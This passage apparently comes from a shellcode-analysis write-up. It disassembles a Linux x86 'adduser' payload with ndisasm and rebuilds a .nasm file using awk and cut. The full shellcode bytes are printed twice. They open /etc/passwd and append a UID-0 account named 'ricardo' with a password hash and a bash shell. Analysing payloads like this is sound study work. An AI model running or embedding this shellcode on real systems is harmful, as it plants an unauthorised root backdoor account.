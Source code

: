 
Or a little quicker:

```bash
echo -ne "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x27\x00\x00\x00\x72\x69\x63\x61\x72\x64\x6f\x3a\x41\x7a\x76\x44\x72\x2e\x72\x57\x33\x54\x34\x69\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u -
```

![Screenshot](../images/adduser/5.png)

Using awk it is possible to get only the part we want and create a .nasm file:

```bash
echo -e "section .text\nglobal _start \n_start:" > 1.nasm

echo -ne "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x27\x00\x00\x00\x72\x69\x63\x61\x72\x64\x6f\x3a\x41\x7a\x76\x44\x72\x2e\x72\x57\x33\x54\x34\x69\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u - | awk '{$2=$2};1' - | cut -d " " -f 3-10 >> 1.nasm
```
